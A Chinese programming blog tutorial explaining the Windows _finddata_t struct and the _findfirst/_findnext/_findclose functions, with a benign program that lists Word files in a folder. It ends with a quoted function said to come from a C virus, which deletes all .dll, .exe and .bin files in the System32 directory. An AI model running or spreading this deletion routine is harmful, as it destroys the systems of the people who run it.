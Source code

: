 ## [_finddata_t结构体用法](https://blog.csdn.net/wangqingchuan92/article/details/77979669)
Struct _finddata_t是用来存储文件各种信息的结构体，使用这个结构体要引用的头文件为“ #include <io.h>”它的结构体定义如下：
```cpp
struct _finddata_t
{
      unsigned attrib;
      time_t time_create;
      time_t time_access;
      time_t time_write;
      _fsize_t size;
      char name[_MAX_FNAME];
}
;
```
该结构体中各成员的变量的含义如下：
unsigned atrrib：文件属性的存储位置。它存储一个unsigned单元，用于表示文件的属性。文件属性是用位表示的，主要有以下一些：_A_ARCH（存档）、 _A_HIDDEN（隐藏）、_A_NORMAL（正常）、_A_RDONLY（只读）、_A_SUBDIR（文件夹）、_A_SYSTEM（系统）。这些都是在中定义的宏，可以直接使用，而本身的意义其实是一个无符号整型（只不过这个整型应该是2的几次幂，从而保证只有一位为 1，而其他位为0）。既然是位表示，那么当一个文件有多个属性时，它往往是通过位或的方式，来得到几个属性的综合。例如只读+隐藏+系统属性，应该为：_A_HIDDEN | _A_RDONLY | _A_SYSTEM 。

time_t time_create：这里的time_t是一个变量类型，实际上就是长整形变量 long int，用来保存从1970年1月1日0时0分0秒到现在时刻的秒数

time_t time_access：文件最后一次被访问的时间。

time_t time_write：文件最后一次被修改的时间。

_fsize_t size：文件的大小（字节数表示）。

char name[_MAX_FNAME]：文件的文件名。这里的_MAX_FNAME是一个常量宏，它在头文件中被定义，表示的是文件名的最大长度。

如何使用这个结构体才能够将文件的信息存储到该结构体的内存空间呢，这就需要_findfirst（）、_findnext（）和_fineclose（）三个函数的搭配使用，下面介绍这三个函数：

 

 

long _findfirst( char *filespec, struct _finddata_t *fileinfo )；

        返回值：如果查找成功的话，将返回一个long型的唯一的查找用的句柄。这个句柄将会在_findnext函数中被使用。失败返回-1.

        参数：

        filespec：标明文件的字符串，可支持通配符。比如：*.c，则表示当前文件夹下的所有后缀为C的文件。

        fileinfo ：这里就是用来存放文件信息的结构体的指针。这个结构体必须在调用此函数前声明，不过不用初始化，只要分配了内存空间就可以了。函数成功后，函数会把找到的文件的信息放入这个结构体所分配的内存空间中。

int _findnext( long handle, struct _finddata_t *fileinfo );

        返回值：若成功返回0，否则返回-1。

        参数：

         handle：即由_findfirst函数返回回来的句柄。

         fileinfo：文件信息结构体的指针。找到文件后，函数将该文件信息放入此结构体中。

int _findclose( long handle );

         返回值：成功返回0，失败返回-1。

         参数：

          handle ：_findfirst函数返回回来的句柄。

该结构体和搭配的函数使用的逻辑就是先用_findfirst查找第一个文件，若成功则用返回的句柄，调用_findnext函数查找其他的文件，当查找完毕后用，用_findclose函数结束查找。下面我们就按照这样的思路来编写一个查找某一个文件夹下的所有word文档的程序。

现在在E盘建立一个文件夹名叫“Test”，在该文件夹内，建立四个word文件和文本文件，如下图：
然后打开visual 2010 新建工程，输入如下代码：
```cpp
#include<stdio.h>
#include<io.h>
#include<Windows.h>
 
#define ADDR "E://Test//*.docx"
 
const char* SreachAddr=ADDR;
 
int main(void)
{
	long Handle;
	struct _finddata_t FileInfo;
	Handle=_findfirst(SreachAddr,&FileInfo);
	if(-1==Handle)
		return -1;
	printf("%s\n",FileInfo.name);
	while(!_findnext(Handle,&FileInfo))
	{
		printf("%s\n",FileInfo.name);
	}
	_findclose(Handle);
	system("pause");
  
	return 0;
}
```
编译运行，结果如下：

 



当然，在找到所有需要的文件后，不仅仅可以通过终端打印出来，还可以进行删除、改名等操作。一般的C语言病毒会用到这个结构体加配合函数进行找到某一类型的文件然后进行恶意删除，例如某一C语言病毒中的删除操作代码如下：
```cpp
void Remove()
{
  int done;
   int i;
 
   struct _finddata_t ffblk;
   char *documenttype[3] = {"C://Windows//System32//*.dll","C://Windows//System32//*.exe","C://Windows//System32//*.bin"};
   for (i = 0; i < 3; i++)
   {
     done = _findfirst(documenttype[i],&ffblk);    
     remove(ffblk.name);
 
     while (!_findnext(done,&ffblk))
     {
         remove(ffblk.name);
     }
     _findclose(done);
   }
 
}    
```
参考资料：
1.[http://blog.csdn.net/yang332233/article/details/53081785](http://blog.csdn.net/yang332233/article/details/53081785)
2.[http://blog.csdn.net/wzhwho/article/details/6372353](http://blog.csdn.net/wzhwho/article/details/6372353)
